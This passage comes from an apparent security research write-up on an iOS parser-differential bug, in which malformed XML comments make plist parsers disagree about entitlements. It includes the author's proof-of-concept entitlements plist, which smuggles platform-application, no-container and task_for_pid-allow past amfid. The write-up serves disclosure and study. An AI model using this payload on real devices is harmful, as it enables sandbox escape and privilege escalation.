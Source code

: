 ```cpp
    }

    entitlements->release();
    return value;
}
```

So we have a reference implementation for entitlement checks, and it's backed by `OSUnserializeXML`. Great! ...or is it?

A very interesting thing about this bug is that I couldn't point you at any particular piece of code and say "there's my bug". The reason for that is that, of course, iOS doesn't have just one, or two, or even three plist parsers, it has at least four! These are:

- `OSUnserializeXML` in the kernel
- `IOCFUnserialize` in [IOKitUser][iokituser]
- `CFPropertyListCreateWithData` in [CoreFoundation][cf]
- `xpc_create_from_plist` in libxpc (closed-source)

So the three interesting questions that arise from this are:

1. Which parsers are used to parse entitlements?
2. Which parser does `amfid` use?
3. And do all parsers return the same data?

The answer to 1) is "all of them", and to 2) `CFPropertyListCreateWithData`. And as a few folks on Twitter already figured out after my tweet, the answer to 3) is obviously "lolnope". Because it's very hard to parse XML correctly, _valid_ XML makes all parsers return the same data, but slightly _invalid_ XML makes them return just slightly _not_ the same data. :D  
In other words, any parser difference can be exploited to make different parsers see different things. This is the very heart of this bug, making it not just a logic flaw, but a system-spanning _design flaw_.

Before we move on to exploiting this, I would like to note that in all my tests, `OSUnserializeXML` and `IOCFUnserialize` always returned the same data, so for the rest of this post I will consider them as equivalent. For brevity, I will also be dubbing `OSUnserializeXML`/`IOCFUnserialize` "IOKit", `CFPropertyListCreateWithData` "CF", and `xpc_create_from_plist` "XPC".

## 3. The exploit

Let's start with the variant of the PoC I tweeted out, which is perhaps the most elegant way of exploiting this bug: 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <!-- these aren't the droids you're looking for -->
    <!---><!-->
    <key>platform-application</key>
    <true/>
    <key>com.apple.private.security.no-container</key>
    <true/>
    <key>task_for_pid-allow</key>
    <true/>
    <!-- -->
</dict>
</plist>
```


  [poc]: https://twitter.com/s1guza/status/1255641164885131268
  [lore]: https://tardis.fandom.com/wiki/Psychic_paper
  [xkcd-url]: https://xkcd.com/1144/
  [xkcd-img]: https://imgs.xkcd.com/comics/tags.png
  [entlist]: http://newosxbook.com/ent.jl
  [cl0ver]: https://siguza.github.io/cl0ver/
  [bsdinit]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/bsddev/IOKitBSDInit.cpp.auto.html
  [iouc]: https://opensource.apple.com/source/xnu/xnu-6153.61.1/iokit/Kernel/IOUserClient.cpp.auto.html
  [iokituser]: https://opensource.apple.com/source/IOKitUser/IOKitUser-1726.41.1/IOCFUnserialize.tab.c.auto.html
  [cf]: https://opensource.apple.com/source/CF/CF-1153.18/CFPropertyList.c.auto.html
  [src]: https://github.com/Siguza/psychicpaper/tree/master/src
  [cve]: https://support.apple.com/en-us/HT211102
  [tweet]: https://twitter.com/LinusHenze/status/1243170188205461508
  [issue]: https://github.com/Siguza/psychicpaper/issues
  [twitter]: https://twitter.com/s1guza
  [repo]: https://github.com/Siguza/psychicpaper
  [joke]: https://twitter.com/joshuaseltzer/status/1255653827191148544
  [silly]: https://twitter.com/chronic/status/1255679349186981889
  [slick]: https://twitter.com/da5ch0/status/1255946105268961280
  [beautiful]: https://twitter.com/Emu4iOS/status/1255929980808298500
  [thonk]: https://twitter.com/nicolas09F9/status/1255906004719538182
  [lmao]: https://twitter.com/InvoxiPlayGames/status/1255648539851587585